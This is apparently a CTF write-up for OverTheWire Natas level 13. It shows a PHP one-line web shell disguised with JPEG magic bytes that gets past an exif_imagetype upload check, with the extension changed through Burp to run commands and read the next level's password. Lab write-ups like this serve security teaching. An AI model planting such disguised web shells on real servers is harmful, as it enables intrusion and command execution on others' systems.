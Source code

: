 # Level 13

## Challenge Details 

- **CTF:** OverTheWire
- **Category:** Natas

## Provided Materials

- [http://natas13.natas.labs.overthewire.org](http://natas13.natas.labs.overthewire.org)
- username: `natas13`
- password: `lW3jYRI02ZKDBb8VtQBU1f6eDRo6WEj9`

## Solution

![start](./start.jpg)

Let's see the sourcecode:

```php
...
<?php

function genRandomString() {
    $length = 10;
    $characters = "0123456789abcdefghijklmnopqrstuvwxyz";
    $string = "";

    for ($p = 0; $p < $length; $p++) {
        $string .= $characters[mt_rand(0, strlen($characters)-1)];
    }

    return $string;
}

function makeRandomPath($dir, $ext) {
    do {
    $path = $dir."/".genRandomString().".".$ext;
    } while(file_exists($path));
    return $path;
}

function makeRandomPathFromFilename($dir, $fn) {
    $ext = pathinfo($fn, PATHINFO_EXTENSION);
    return makeRandomPath($dir, $ext);
}

if(array_key_exists("filename", $_POST)) {
    $target_path = makeRandomPathFromFilename("upload", $_POST["filename"]);

    $err=$_FILES['uploadedfile']['error'];
    if($err){
        if($err === 2){
            echo "The uploaded file exceeds MAX_FILE_SIZE";
        } else{
            echo "Something went wrong :/";
        }
    } else if(filesize($_FILES['uploadedfile']['tmp_name']) > 1000) {
        echo "File is too big";
    } else if (! exif_imagetype($_FILES['uploadedfile']['tmp_name'])) {
        echo "File is not an image";
    } else {
        if(move_uploaded_file($_FILES['uploadedfile']['tmp_name'], $target_path)) {
            echo "The file <a href=\"$target_path\">$target_path</a> has been uploaded";
        } else{
            echo "There was an error uploading the file, please try again!";
        }
    }
} else {
?>
...
```

Pretty much the same as previous challenge, but now it has function `exif_imagetype`, so we now need to set [file signature bytes](https://en.wikipedia.org/wiki/List_of_file_signatures) to match the image file. We just need to add `FF D8 FF EE` bytes at the beginning of our `shell.php`. We can do it with hex editor:

![file](./file.jpg)

So now it will interpret our file as `JPEG image`:

```sh
$ cat shell.php 
????<?php echo system($_REQUEST['cmd']);?>
$ file shell.php 
shell.php: JPEG image data
```

Now let's upload it and intercept the request with Burp to modify the file extension as in previous challenge:

![upload](./upload.jpg)

`The file upload/otg9uhqguv.php has been uploaded`, let's execute commands as in previous challenge:

![cat](./cat.jpg)

And when we send this request, we get:

![pass](./pass.jpg)

## Password

`natas14`:`qPazSJBmrmU7UQJv17MHk1PGC4DxZMEP`

*Created by [bu19akov](https://github.com/bu19akov)*